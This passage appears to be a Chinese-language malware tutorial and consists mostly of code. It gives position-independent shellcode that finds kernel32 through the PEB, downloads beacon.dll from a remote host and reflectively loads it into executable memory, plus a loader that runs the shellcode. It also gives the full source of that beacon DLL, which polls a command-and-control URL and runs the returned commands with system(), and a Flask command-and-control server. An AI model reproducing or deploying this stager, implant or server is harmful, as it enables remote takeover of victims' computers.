    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STR FullDllName;
    UNICODE_STR BaseDllName;
    ULONG Flags;
    SHORT LoadCount;
    SHORT TlsIndex;
    LIST_ENTRY HashTableEntry;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;

void shellcode_start() {
    //代码不用理解,可以直接复制粘贴.
    uint64_t base_address = NULL;
    //0.读取fs,找到peb
    base_address = __readfsdword(0x30);
    unsigned short m_counter;
    uint64_t ldr_table;
    uint64_t dll_name;
    uint64_t hash_name;
    uint64_t kernel32_base = 0;

    base_address = (uint64_t)((_PEB*)base_address)->pLdr;
    ldr_table =
        (uint64_t)((PPEB_LDR_DATA)base_address)->InMemoryOrderModuleList.Flink;
    //1. 通过peb里面的LDR找到kernel32的地址
    while (ldr_table) {
        dll_name =
            (uint64_t)((PLDR_DATA_TABLE_ENTRY)ldr_table)->BaseDllName.pBuffer;
        m_counter = ((PLDR_DATA_TABLE_ENTRY)ldr_table)->BaseDllName.Length;
        hash_name = 0;
        do {
            hash_name = _rotr((unsigned long)hash_name, 13);
            if (*((unsigned char*)dll_name) >= 'a')
                hash_name += *((unsigned char*)dll_name) - 0x20;
            else
                hash_name += *((unsigned char*)dll_name);
            dll_name++;
        } while (--m_counter);
        //hash name其实是基于dll_name的因为我们也不想取到其他的莫名其妙的东西,做个简单地hash会准确很多
        //如果你不想用hashname,那么你可以printf("%wZ",dll_name);观察一下dll name自己想一下新的思路
        if ((unsigned long)hash_name == 0x6A4ABC5B) {
            //这就是kernel.dll的地址了
            kernel32_base = (uint64_t)((PLDR_DATA_TABLE_ENTRY)ldr_table)->DllBase;
            break;
        }
        ldr_table = DEREF(ldr_table);
        if (kernel32_base != 0) {
            //找到了退出
            break;
        }
    }
    if (kernel32_base == 0) {
        __debugbreak();
    }
    typedef HMODULE(WINAPI* GetProcAddressT)(_In_ HMODULE hModule, _In_ LPCSTR lpProcName);
    typedef HMODULE(WINAPI* LoadLibraryAT)(_In_ LPCSTR lpLibFileName);
    GetProcAddressT fnGetProcAddress = NULL;
    LoadLibraryAT fnLoadlibrary = NULL;

    //别在意这边的大小写驼峰混乱,因为是两套代码拼接的,懒得改了....
    UINT_PTR uiAddressArray = NULL;
    UINT_PTR uiNameArray = NULL;
    UINT_PTR uiNameOrdinals = NULL;
    PIMAGE_NT_HEADERS32 pNtHeaders32 = NULL;
    PIMAGE_NT_HEADERS64 pNtHeaders64 = NULL;
    PIMAGE_DATA_DIRECTORY pDataDirectory = NULL;
    PIMAGE_EXPORT_DIRECTORY pExportDirectory = NULL;
    // 解析PE头
    pNtHeaders32 = (PIMAGE_NT_HEADERS32)(kernel32_base + ((PIMAGE_DOS_HEADER)kernel32_base)->e_lfanew);
    pNtHeaders64 = (PIMAGE_NT_HEADERS64)(kernel32_base + ((PIMAGE_DOS_HEADER)kernel32_base)->e_lfanew);
    // 拿到导出表
    pDataDirectory = (PIMAGE_DATA_DIRECTORY)&pNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
    // 遍历导出表
    pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(kernel32_base + pDataDirectory->VirtualAddress);
    uiAddressArray = (kernel32_base + pExportDirectory->AddressOfFunctions);
    uiNameArray = (kernel32_base + pExportDirectory->AddressOfNames);
    uiNameOrdinals = (kernel32_base + pExportDirectory->AddressOfNameOrdinals);

    unsigned long dwCounter = pExportDirectory->NumberOfNames;

    char str1[] = { 'G', 'e', 't', 'P', 'r', 'o', 'c', 'A', 'd', 'd', 'r', 'e', 's', 's', '/0' };
    char str2[] = { 'L','o','a','d','L','i','b','r','a','r','y','A','/0' };
    while (dwCounter--)
    {
        char* cpExportedFunctionName = (char*)(kernel32_base + DEREF_32(uiNameArray));
        char* matchPtr = &str1[0];
        int ret = 0;
        while (!(ret = *cpExportedFunctionName - *matchPtr) && *cpExportedFunctionName)
        {
            cpExportedFunctionName++;
            matchPtr++;
        }
        if (ret == 0)
        {
            uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(unsigned long));
            fnGetProcAddress = (GetProcAddressT)(kernel32_base + DEREF_32(uiAddressArray));
        }
        else {
            cpExportedFunctionName = (char*)(kernel32_base + DEREF_32(uiNameArray));
            char* matchPtr = &str2[0];
            ret = 0;
            while (!(ret = *cpExportedFunctionName - *matchPtr) && *cpExportedFunctionName)
            {
                cpExportedFunctionName++;
                matchPtr++;
            }
            if (ret == 0)
            {
                uiAddressArray = (kernel32_base + pExportDirectory->AddressOfFunctions);
                uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(unsigned long));
                fnLoadlibrary = (LoadLibraryAT)(kernel32_base + DEREF_32(uiAddressArray));
            }
        }
        if (fnLoadlibrary && fnGetProcAddress) {
            break;
        }
        uiNameArray += sizeof(unsigned long);
        uiNameOrdinals += sizeof(unsigned short);
    }
    if (fnLoadlibrary == NULL || fnGetProcAddress == NULL) {
        __debugbreak();
    }


    typedef struct _URL_INFO
    {
        WCHAR szScheme[36];
        WCHAR szHostName[36];
        WCHAR szUserName[36];
        WCHAR szPassword[36];
        WCHAR szUrlPath[36];
        WCHAR szExtraInfo[36];
    }URL_INFO, * PURL_INFO;

    _URL_INFO url;
    URL_COMPONENTSW lpUrlComponents;
    lpUrlComponents.dwStructSize = sizeof(lpUrlComponents);
    lpUrlComponents.lpszExtraInfo = url.szExtraInfo;
    lpUrlComponents.lpszHostName = url.szHostName;
    lpUrlComponents.lpszPassword = url.szPassword;
    lpUrlComponents.lpszScheme = url.szScheme;
    lpUrlComponents.lpszUrlPath = url.szUrlPath;
    lpUrlComponents.lpszUserName = url.szUserName;

    lpUrlComponents.dwExtraInfoLength =
        lpUrlComponents.dwHostNameLength =
        lpUrlComponents.dwPasswordLength =
        lpUrlComponents.dwSchemeLength =
        lpUrlComponents.dwUrlPathLength =
        lpUrlComponents.dwUserNameLength = 36;

    typedef HMODULE(WINAPI* WinHttpCrackUrlT)(_In_reads_(dwUrlLength) LPCWSTR pwszUrl, _In_ DWORD dwUrlLength, _In_ DWORD dwFlags, _Inout_ LPURL_COMPONENTS lpUrlComponents);
    typedef HINTERNET(WINAPI* WinHttpOpenT)(_In_opt_z_ LPCWSTR pszAgentW,
        _In_ DWORD dwAccessType,
        _In_opt_z_ LPCWSTR pszProxyW,
        _In_opt_z_ LPCWSTR pszProxyBypassW,
        _In_ DWORD dwFlags);
    typedef HINTERNET(WINAPI* WinHttpConnectT)(
        IN HINTERNET hSession,
        IN LPCWSTR pswzServerName,
        IN INTERNET_PORT nServerPort,
        IN DWORD dwReserved);
    typedef HINTERNET(WINAPI* WinHttpOpenRequestT)(
        IN HINTERNET hConnect,
        IN LPCWSTR pwszVerb,
        IN LPCWSTR pwszObjectName,
        IN LPCWSTR pwszVersion,
        IN LPCWSTR pwszReferrer OPTIONAL,
        IN LPCWSTR FAR* ppwszAcceptTypes OPTIONAL,
        IN DWORD dwFlags);
    typedef BOOL(WINAPI* WinHttpSendRequestT)(
        IN HINTERNET hRequest,
        _In_reads_opt_(dwHeadersLength) LPCWSTR lpszHeaders,
        IN DWORD dwHeadersLength,
        _In_reads_bytes_opt_(dwOptionalLength) LPVOID lpOptional,
        IN DWORD dwOptionalLength,
        IN DWORD dwTotalLength,
        IN DWORD_PTR dwContext);
    typedef BOOL(WINAPI* WinHttpReceiveResponseT)(
        IN HINTERNET hRequest,
        IN LPVOID lpReserved);
    typedef BOOL(WINAPI* WinHttpQueryHeadersT)(
        IN     HINTERNET hRequest,
        IN     DWORD     dwInfoLevel,
        IN     LPCWSTR   pwszName OPTIONAL,
        _Out_writes_bytes_to_opt_(*lpdwBufferLength, *lpdwBufferLength) __out_data_source(NETWORK) LPVOID lpBuffer,
        IN OUT LPDWORD   lpdwBufferLength,
        IN OUT LPDWORD   lpdwIndex OPTIONAL);
    typedef BOOL(WINAPI* WinHttpCloseHandleT)(
        IN HINTERNET hInternet);
    typedef void* (WINAPI* mallocT)(size_t);
    typedef BOOL(WINAPI* WinHttpReadDataT)(
        IN HINTERNET hRequest,
        _Out_writes_bytes_to_(dwNumberOfBytesToRead, *lpdwNumberOfBytesRead) __out_data_source(NETWORK) LPVOID lpBuffer,
        IN DWORD dwNumberOfBytesToRead,
        OUT LPDWORD lpdwNumberOfBytesRead);
    typedef void* (WINAPI* memcpyT)(
        _Out_writes_bytes_all_(_Size) void* _Dst,
        _In_reads_bytes_(_Size)       void const* _Src,
        _In_                          size_t      _Size);
    void* pBuffer = nullptr;
    constexpr char strWinHttpCrackUrl[] = "WinHttpCrackUrl";
    constexpr char strWinHttpOpen[] = "WinHttpOpen";
    constexpr char strWinHttpConnect[] = "WinHttpConnect";
    constexpr char strWinHttpOpenRequest[] = "WinHttpOpenRequest";
    constexpr char strWinHttpSendRequest[] = "WinHttpSendRequest";
    constexpr char strWinHttpReceiveResponse[] = "WinHttpReceiveResponse";
    constexpr char strWinHttpQueryHeaders[] = "WinHttpQueryHeaders";
    constexpr char strWinHttpCloseHandle[] = "WinHttpCloseHandle";
    constexpr char strWinHttpReadData[] = "WinHttpReadData";
    constexpr char strMemcpy[] = "memcpy";
    constexpr char strWinhttp[] = "Winhttp.dll";
    constexpr wchar_t strUrl[] = L"http://192.168.1.5/beacon.dll";
    constexpr wchar_t strHead[] = L"HEAD";
    constexpr wchar_t strHTTP[] = L"HTTP/1.1";
    constexpr wchar_t strGet[] = L"GET";
    constexpr char strMalloc[] = "malloc";
    constexpr char strMsvcrt[] = "msvcrt.dll";
    WinHttpCrackUrlT fnWinHttpCrackUrl = (WinHttpCrackUrlT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpCrackUrl);
    WinHttpOpenT fnWinHttpOpen = (WinHttpOpenT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpOpen);
    WinHttpConnectT fnWinHttpConnect = (WinHttpConnectT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpConnect);
    WinHttpOpenRequestT fnWinHttpOpenRequest = (WinHttpOpenRequestT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpOpenRequest);
    WinHttpSendRequestT fnWinHttpSendRequest = (WinHttpSendRequestT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpSendRequest);
    WinHttpReceiveResponseT fnWinHttpReceiveResponse = (WinHttpReceiveResponseT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpReceiveResponse);
    WinHttpQueryHeadersT fnWinHttpQueryHeaders = (WinHttpQueryHeadersT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpQueryHeaders);
    WinHttpCloseHandleT fnWinHttpCloseHandle = (WinHttpCloseHandleT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpCloseHandle);
    mallocT fnMalloc = (mallocT)fnGetProcAddress(fnLoadlibrary(strMsvcrt), strMalloc);
    WinHttpReadDataT fnWinHttpReadData = (WinHttpReadDataT)fnGetProcAddress(fnLoadlibrary(strWinhttp), (char*)strWinHttpReadData);

    memcpyT fnMemcpy = (memcpyT)fnGetProcAddress(fnLoadlibrary(strMsvcrt), (char*)strMemcpy);
    // 创建一个会话
    fnWinHttpCrackUrl(strUrl, 0, ICU_ESCAPE, &lpUrlComponents);
    HINTERNET hSession = fnWinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_NO_PROXY, NULL, NULL, 0);
    DWORD dwReadBytes, dwSizeDW = sizeof(dwSizeDW), dwContentSize, dwIndex = 0;


    // 创建一个连接
    HINTERNET hConnect = fnWinHttpConnect(hSession, lpUrlComponents.lpszHostName, lpUrlComponents.nPort, 0);
    // 创建一个请求，先查询内容的大小
    HINTERNET hRequest = fnWinHttpOpenRequest(hConnect, strHead, lpUrlComponents.lpszUrlPath, strHTTP, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_REFRESH);
    fnWinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    fnWinHttpReceiveResponse(hRequest, 0);
    fnWinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, NULL, &dwContentSize, &dwSizeDW, &dwIndex);
    fnWinHttpCloseHandle(hRequest);


    //hRequest = fnWinHttpOpenRequest(hConnect, strGet, lpUrlComponents.lpszUrlPath, strHTTP, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_REFRESH);
    //fnWinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    //fnWinHttpReceiveResponse(hRequest, 0);
    //pBuffer = fnMalloc(dwContentSize);

    hRequest = fnWinHttpOpenRequest(hConnect, strGet, lpUrlComponents.lpszUrlPath, strHTTP, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_REFRESH);
    fnWinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    fnWinHttpReceiveResponse(hRequest, 0);
    typedef LPVOID(WINAPI* VirtualAllocT)(
        _In_opt_ LPVOID lpAddress,
        _In_     SIZE_T dwSize,
        _In_     DWORD flAllocationType,
        _In_     DWORD flProtect);
    constexpr char strVirtualAlloc[] = "VirtualAlloc";
    VirtualAllocT fnVirtualAlloc = (VirtualAllocT)fnGetProcAddress((HMODULE)kernel32_base, (char*)strVirtualAlloc);
    //别介意代码风格突变,这是另外一个项目复制粘贴的.
    const auto fileSize = dwContentSize;
    void* rawBuffer = fnVirtualAlloc(NULL, fileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    fnWinHttpReadData(hRequest, rawBuffer, fileSize, &dwReadBytes);


    //ZeroMemory(pBuffer, dwContentSize);
    //完成下载
    //fnWinHttpReadData(hRequest, pBuffer, dwContentSize, &dwReadBytes);

    fnWinHttpCloseHandle(hRequest);
    fnWinHttpCloseHandle(hConnect);
    fnWinHttpCloseHandle(hSession);


    PIMAGE_DOS_HEADER pIDH = (PIMAGE_DOS_HEADER)rawBuffer;
    PIMAGE_NT_HEADERS pINH = (PIMAGE_NT_HEADERS)((LPBYTE)rawBuffer + pIDH->e_lfanew);

    void* imageBuffer = fnVirtualAlloc(NULL, pINH->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    fnMemcpy(imageBuffer, rawBuffer, pINH->OptionalHeader.SizeOfHeaders);

    PIMAGE_SECTION_HEADER pISH = (PIMAGE_SECTION_HEADER)(pINH + 1);

    for (size_t i = 0; i < pINH->FileHeader.NumberOfSections; i++)
    {
        fnMemcpy((PVOID)((LPBYTE)imageBuffer + pISH[i].VirtualAddress), (PVOID)((LPBYTE)rawBuffer + pISH[i].PointerToRawData), pISH[i].SizeOfRawData);
    }

    DWORD delta = (DWORD)((LPBYTE)imageBuffer - pINH->OptionalHeader.ImageBase); // Calculate the delta
    PIMAGE_BASE_RELOCATION pIBR = (PIMAGE_BASE_RELOCATION)((LPBYTE)imageBuffer + pINH->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
    while (pIBR->VirtualAddress)
    {
        if (pIBR->SizeOfBlock >= sizeof(IMAGE_BASE_RELOCATION))
        {
            DWORD count = (pIBR->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
            PWORD list = (PWORD)(pIBR + 1);

            for (size_t i = 0; i < count; i++)
            {
                if (list[i])
                {
                    PDWORD ptr = (PDWORD)((LPBYTE)imageBuffer + (pIBR->VirtualAddress + (list[i] & 0xFFF)));
                    *ptr += delta;
                }
            }
        }

        pIBR = (PIMAGE_BASE_RELOCATION)((LPBYTE)pIBR + pIBR->SizeOfBlock);
    }

    //导入表修复
    PIMAGE_IMPORT_DESCRIPTOR pIID = (PIMAGE_IMPORT_DESCRIPTOR)((LPBYTE)imageBuffer + pINH->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);
    while (pIID->Characteristics)
    {
        PIMAGE_THUNK_DATA OrigFirstThunk = (PIMAGE_THUNK_DATA)((LPBYTE)imageBuffer + pIID->OriginalFirstThunk);
        PIMAGE_THUNK_DATA FirstThunk = (PIMAGE_THUNK_DATA)((LPBYTE)imageBuffer + pIID->FirstThunk);

        HANDLE hModule = fnLoadlibrary((LPCSTR)imageBuffer + pIID->Name);

        while (OrigFirstThunk->u1.AddressOfData)
        {
            if (OrigFirstThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG)
            {
                // Import by ordinal

                DWORD Function = (DWORD)fnGetProcAddress((HMODULE)hModule, (char*)(OrigFirstThunk->u1.Ordinal & 0xFFFF));
                FirstThunk->u1.Function = Function;
            }

            else
            {
                // Import by name
                PIMAGE_IMPORT_BY_NAME pIBN = (PIMAGE_IMPORT_BY_NAME)((LPBYTE)imageBuffer + OrigFirstThunk->u1.AddressOfData);
                DWORD Function = (DWORD)fnGetProcAddress((HMODULE)hModule, (char*)pIBN->Name);

                FirstThunk->u1.Function = Function;
            }

            OrigFirstThunk++;
            FirstThunk++;
        }

        pIID++;
    }

    //一切就绪 call一下entry
    typedef BOOL(WINAPI* PDLL_MAIN)(HMODULE, DWORD, PVOID);
    PDLL_MAIN EntryPoint = (PDLL_MAIN)((LPBYTE)imageBuffer + pINH->OptionalHeader.AddressOfEntryPoint);
    EntryPoint((HMODULE)imageBuffer, DLL_PROCESS_ATTACH, NULL); // Call the entry point

    char str3[] = { 'U','S','E','R','3','2','.','d','l','l','/0' };
    char str4[] = { 'M','e','s','s','a','g','e','B','o','x','A','/0' };
    char str5[] = { 'h','e','l','l','o',' ','w','o','r','l','d','/0' };
    typedef int (WINAPI* MessageBoxAT)(_In_opt_ HWND hWnd, _In_opt_ LPCSTR lpText, _In_opt_ LPCSTR lpCaption, _In_ UINT uType);
    MessageBoxAT pMessageBoxA = (MessageBoxAT)fnGetProcAddress(fnLoadlibrary(str3), str4);
    if (pMessageBoxA == NULL) {
        __debugbreak();
    }
    pMessageBoxA(NULL, str5, NULL, NULL);
    if (fnLoadlibrary == NULL || fnGetProcAddress == NULL) {
        __debugbreak();
    }

    //printf("kernel32: %p fnGetProcAddress :%p/n", fnLoadlibrary, fnGetProcAddress);
}
void shellcode_end() {
    __debugbreak();
}
int main()
{
    const auto start_address = (uint32_t)shellcode_start;
    const auto shellcode_size = (uint32_t)shellcode_end - (uint32_t)start_address;
    for (size_t i = 0; i < shellcode_size; i++)
    {
        auto sig_code = ((unsigned char*)start_address)[i];
        printf(",0x%02X", sig_code);
    }
    std::cout << "Hello World!/n";
    printf("start_address: %p /n", start_address);
    shellcode_start();
    char shellcode[] = {...};//...这里放shellcode
    PVOID p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));
    typedef void(__stdcall* door_code) ();
    door_code run_shellcode = (door_code)p;
    run_shellcode();
    system("pause");
}

```

beacon.dll的完整代码如下：

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

#define WINHTTP_STACK_LIMIT 64

#include <Windows.h>
#include <winhttp.h>
#include <string>
#include <vector>
#include <random>
#pragma comment(lib, "winhttp.lib")

typedef struct _winhttp_url_custom_stack {
    wchar_t szScheme[WINHTTP_STACK_LIMIT];
    wchar_t szHostName[WINHTTP_STACK_LIMIT];
    wchar_t szUserName[WINHTTP_STACK_LIMIT];
    wchar_t szPassword[WINHTTP_STACK_LIMIT];
    wchar_t szUrlPath[WINHTTP_STACK_LIMIT];
    wchar_t szExtraInfo[WINHTTP_STACK_LIMIT];
} _winhttp_url_custom_stack;

namespace Winhttp {
    auto initParams(URL_COMPONENTS* urlParams,
        _winhttp_url_custom_stack* inputParams) -> void {
        urlParams->dwStructSize = sizeof(URL_COMPONENTS);
        urlParams->lpszExtraInfo = inputParams->szExtraInfo;
        urlParams->lpszHostName = inputParams->szHostName;
        urlParams->lpszPassword = inputParams->szPassword;
        urlParams->lpszScheme = inputParams->szScheme;
        urlParams->lpszUrlPath = inputParams->szUrlPath;
        urlParams->lpszUserName = inputParams->szUserName;

        urlParams->dwExtraInfoLength = urlParams->dwHostNameLength =
            urlParams->dwPasswordLength = urlParams->dwSchemeLength =
            urlParams->dwUrlPathLength = urlParams->dwUserNameLength =
            WINHTTP_STACK_LIMIT;
    }
    auto Get(std::wstring url, void** outBuffer, size_t& outBufferSize) -> bool {
        _winhttp_url_custom_stack winHttpStack = { 0 };
        URL_COMPONENTS urlParams = { 0 };
        HINTERNET httpSession = 0, httpConnectHandle = 0, httpRequest = 0;
        initParams(&urlParams, &winHttpStack);
        void* buffer = nullptr;
        size_t bufferSize = 0;
        size_t readSize = 0;
        size_t realySize = 0;
        bool status = false;
        DWORD headBufferSize = sizeof(headBufferSize), headContextSize,
            headIndex = 0;
        do {
            auto httpStatus =
                WinHttpCrackUrl(url.c_str(), url.size(), ICU_DECODE, &urlParams);
            if (httpStatus == false) {
                break;
            }
            httpSession =
                WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_NO_PROXY, NULL, NULL, 0);
            if (httpSession == 0) {
                break;
            }
            httpConnectHandle = WinHttpConnect(httpSession, urlParams.lpszHostName,
                urlParams.nPort, 0);
            if (httpConnectHandle == 0) {
                break;
            }

            httpRequest = WinHttpOpenRequest(
                httpConnectHandle, L"GET", urlParams.lpszUrlPath, L"HTTP/1.1",
                WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES,
                WINHTTP_FLAG_REFRESH);
            if (httpRequest == 0) {
                break;
            }
            if (WinHttpSendRequest(httpRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0,
                WINHTTP_NO_REQUEST_DATA, 0, 0, 0) == false) {
                break;
            }
            if (WinHttpReceiveResponse(httpRequest, 0) == false) {
                break;
            }
            if (WinHttpQueryDataAvailable(
                httpRequest, reinterpret_cast<LPDWORD>(&realySize)) == false) {
                break;
            }
            buffer = malloc(realySize);
            if (buffer == nullptr) {
                break;
            }
            memset(buffer, 0, realySize);
            bufferSize = realySize;
            if (WinHttpReadData(httpRequest, buffer, realySize,
                reinterpret_cast<LPDWORD>(&realySize)) == false) {
                break;
            }
            status = true;
        } while (false);
        if (status) {
            *outBuffer = buffer;
            outBufferSize = bufferSize;
        }
        else {
            if (buffer != nullptr) {
                free(buffer);
            }
        }
        // close
        if (httpRequest != 0) {
            WinHttpCloseHandle(httpRequest);
        }
        if (httpConnectHandle != 0) {
            WinHttpCloseHandle(httpConnectHandle);
        }
        if (httpSession != 0) {
            WinHttpCloseHandle(httpSession);
        }
        return status;
    }
}
    namespace Auth {
        std::string localKey;
        auto strRand(int length) -> std::string {
            char tmp;
            std::string buffer;
            std::random_device rd;
            std::default_random_engine random(rd());
            for (int i = 0; i < length; i++) {
                tmp = random() % 36;
                if (tmp < 10) {
                    tmp += '0';
                }
                else {
                    tmp -= 10;
                    tmp += 'A';
                }
                buffer += tmp;
            }
            return buffer;
        }
        bool CheckPassword(std::string key) { return key == localKey; }
        void Init() { localKey = strRand(6); }
    }  // namespace Auth
    namespace Beacon {
    void loopWork() {
        static const std::wstring cmdUrl =
            L"http://192.168.1:5000/api/v1/client/get_cmd";
        Auth::Init();
        printf("你的本地密钥是: %s 请不要随便分享给其他人/n",
            Auth::localKey.c_str());
        do {
            void* buffer = nullptr;
            size_t bufferSize = 0;

            bool status = Winhttp::Get(cmdUrl, &buffer, bufferSize);
            if (status && buffer != nullptr) {
                std::string serverCmd =
                    std::string(reinterpret_cast<char*>(buffer), bufferSize);
                if (serverCmd.size() > 0) {
                    std::string key = serverCmd.substr(0, 6);
                    if (Auth::CheckPassword(key)) {
                        std::string cmd = serverCmd.substr(7, serverCmd.size());
                        printf("cmd: %s /n", cmd.c_str());
                        system(cmd.c_str());
                    }
                }
                free(buffer);
            }
            Sleep(1000);
        } while (true);
    }

    auto easyCreateThread(void* pFunctionAddress, void* pParams) -> HANDLE {
        return CreateThread(
            NULL, NULL, reinterpret_cast<LPTHREAD_START_ROUTINE>(pFunctionAddress),
            static_cast<LPVOID>(pParams), NULL, NULL);
    }
    auto Work() -> void {
        easyCreateThread(reinterpret_cast<void*>(loopWork), nullptr);
    }
}  // namespace Winhttp

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        Beacon::Work();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

/*
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "hello i am beacon", NULL, NULL);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

*/
```

main.py的完整代码如下：

```
from flask import Flask
from flask import request
app = Flask(__name__)

g_cmd = ""

@app.route('/api/v1/client/get_cmd', methods=['GET'])
def client_get_cmd():
    global g_cmd
    return g_cmd

g_respone = ""

@app.route('/api/v1/server/get_respone', methods=['POST'])
def server_get_respone():
    global g_respone
    g_respone = request.data.decode()
    return "1337"

@app.route('/api/v1/server/send_cmd', methods=['GET'])
def client_send_cmd():
    global g_cmd
    g_cmd = request.args.get('key') + "|" + request.args.get('cmd')
    return {'success': True, 'cmd': g_cmd}

@app.route('/api/v1/server/get_client_respone', methods=['GET'])
def server_get_client_respone():
    global g_respone
    return g_respone

@app.route("/")
def root():
    return '你好世界'


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0")

```
